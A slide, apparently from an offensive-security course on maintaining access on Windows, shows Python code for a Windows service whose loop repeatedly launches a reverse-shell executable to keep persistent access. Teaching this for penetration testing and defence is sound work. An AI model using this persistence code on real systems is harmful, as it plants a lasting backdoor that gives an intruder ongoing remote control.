

Maintaining Access (cont.)
On Windows (cont.)
Instead of writing the time into a file, we will execute our reverse shell executable:
...
    def main(self):
        while True:
            ret_code = win32event.WaitForSingleObject(self.hWaitStop,
            self.timeout)
            if ret_code == win32event.WAIT_OBJECT_0:
                servicemanager.LogInfoMsg("Service is stopping")
                break
            subprocess.call(PATH_TO_REV_SHELL, shell=False)
The rest of the service code is the same.
183